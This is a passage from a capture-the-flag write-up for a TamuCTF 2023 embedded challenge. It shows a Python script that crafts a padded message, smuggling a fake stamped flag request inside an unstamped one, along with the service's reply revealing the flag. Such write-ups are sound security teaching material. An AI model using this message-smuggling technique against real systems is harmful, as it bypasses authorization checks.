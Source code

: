 So all we need to do is wrap this structure inside a long unstamped message
that  
`courier` naively thinks is a `HailstoneRequest`

We can do so with the following python script:  
```py  
message = list()

message += 'COURIERM'.encode() # Header of the first real message  
message += [0x08, 0x00]        # 2^11 bytes message length  
message += [0x00, 0x00]        # Unstamped HailstoneRequest  
message += 'COURIERM'.encode() # Header for the fictional 2nd consignee
message  
message += [0x00, 0x24]        # 36 bytes message length

# Encoded fake stamped FlagRequest package  
message += [0x01, 0x0c, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d,
0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d,
0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x01, 0x01]

print(len(message))  
print(f'{bytes(message)}')  
print('Adding 0s')

# The real message needs to be 2^11 + 10 bytes in length, so we pad with 0s  
message += [0]*(2058-len(message))  
```

Finally, if we send this message using a modified version of  
`solver-template.py`, we receive back  
```py  
b'COURIERM\x00>\x02\x02;Oh, sure! Here you go:
gigem{what_is_old_becomes_new_again}'  
```

And this is it, 20 hours of work and the flag is  
`gigem{what_is_old_becomes_new_again}`

[GoogleCTF 2022 for the Hardware *Weather*]:
https://github.com/yarml/Writeups/blob/main/GoogleCTF2022/Hardware-
Weather/README.md  

Original writeup
(https://github.com/yarml/Writeups/blob/main/TamuCTF2023/Embedded-
Courier/README.md).